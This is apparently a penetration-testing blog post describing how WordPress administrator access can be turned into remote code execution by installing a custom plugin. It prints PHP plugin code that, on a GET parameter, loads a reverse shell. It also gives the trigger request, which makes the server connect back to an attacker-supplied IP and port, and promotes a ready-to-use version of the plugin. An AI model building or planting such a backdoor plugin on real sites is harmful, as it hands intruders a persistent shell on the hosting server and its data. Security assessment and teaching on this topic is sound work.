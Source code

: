 +++
title = "Modern WordPress RCE as Administrator"
description = "Explains how to gain Remote Code Execution (RCE) on modern WordPress instances using administrator privileges by creating and installing a custom plugin that triggers a reverse shell. Also offers a ready-to-use plug-and-play plugin if you don't want to create one from scratch."
tldr = "Got WordPress admin? Use [this](https://github.com/davidxbors/wordpress-rce-plugin) simple plugin with a reverse shell triggerable via GET parameters (/?shell=activate&ip=<IP>&port=<PORT>) to get RCE, as old methods might fail."
date = 2025-04-27
draft = false
+++

## Got Administrator... now what?

Let's say you are in the middle of an assessment and just got credentials as an administrator user on a WordPress instance.
Or got administrative access to the instance via a vulnerability.
What's the next step?

Of course, you now have complete control of the instance and can change anything regarding the website.
While having huge impact, this doesn't allow pivoting.
Also, in the case of the WordPress instance being an old unused website (which it might be if it has weak creds or vulns) the impact might not be that big for the customer.
The good news? Having admin access to a WordPress instance is your golden ticket to getting a shell on the hosting server.

## How to pop a shell?

![i can haz shellz?](/posts/imgs/9s3nbd.jpg)

The classic ways of getting a shell, documented on [hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/WordPress.html?highlight=WordPress#panel-rce) as well, involve either:

1. Changing a theme by adding custom webshell code to an arbitrary page;
1. Uploading a webshell as a plugin. The install will fail, but the webshell will be available in the media section.

However, with modern versions of WordPress the two well known staple methods don't work as expected anymore.
Plugins required to upload a zip, and in case of install failure they will simply save the zip archive in the media section.
Themes allow you to add custom code to them, but (at least in my case) it is not possible to execute a webshell via this method anymore.

**The solution?**

We can still get remote code exection if we have the rights to install a plugin.
However, we need to actually install a valid plugin.

## The contents of a valid WordPress plugin

The structure of a WordPress plugin zip archive is trivial.
It simply stores directly all the files required by the plugin.
For example, it can be as simple as:

```console
my_plugin.zip
|--- plugin.php
```

In the same time, it can also have more complex structures, use your imagination.

However, there is a very important thing to mention here!
The main file of the plugin, should have the following structure.

```php
<?php
/*
Plugin Name: Demo Shell Plugin
Description: A plugin that establishes a reverse shell.
Version: 1.0
Author: David Bors 
*/
// the actual code of this file goes here
```

If no file has such a comment, WordPress will fail to install the plugin.

## Enough talking, let's write the shell

The code I use, can also be found on my github, [here](https://github.com/davidxbors/wordpress-rce-plugin).

But, let's take a look at it.

```php
<?php
/*
Plugin Name: Demo Shell Plugin
Description: A plugin that establishes a reverse shell.
Version: 1.0
Author: David Bors 
*/
// Trigger shell.php when a specific query parameter is present
function trigger_shell() {
    if (isset($_GET['shell']) && $_GET['shell'] === 'activate') {
        include_once plugin_dir_path(__FILE__) . 'shell.php';
        exit; // Prevent WordPress from rendering further
    }
}
add_action('init', 'trigger_shell');
```

This is the entrypoint of the plugin.
It defines a simple `trigger_shell` function, which, if a `GET` requests has the following `shell` parameter with the `activate` value, will execute the code from an additional `shell.php` file.

`add_action` defines an action for the plugin.
The `init` action is an early phase when WordPress is setting up but before output is sent to the browser.
This ensures our function will be executed at every rendering of any page on the WordPress instance.

So, to recap, each time a page is rendered by WordPress, this plugin checks if the `shell=activate` parameter / value pair is present.
If it is, it runs the malicious code present in `shell.php`.

`shell.php` has a generic reverse shell, taken from [revshells.com](https://www.revshells.com/).
I changed that shell so the IP and port used for the reverse shell is also taken from `GET` parameters, so one can use this plugin in a plug and play manner.

In the end, a request that will trigger the shell and start a reverse shell to one's machine should look like this:

```console
GET /?shell=activate&ip=<IP>&port=<PORT>
```

Thanks for reading all this, and I hope this ready to use, plug and play plugin will help you!
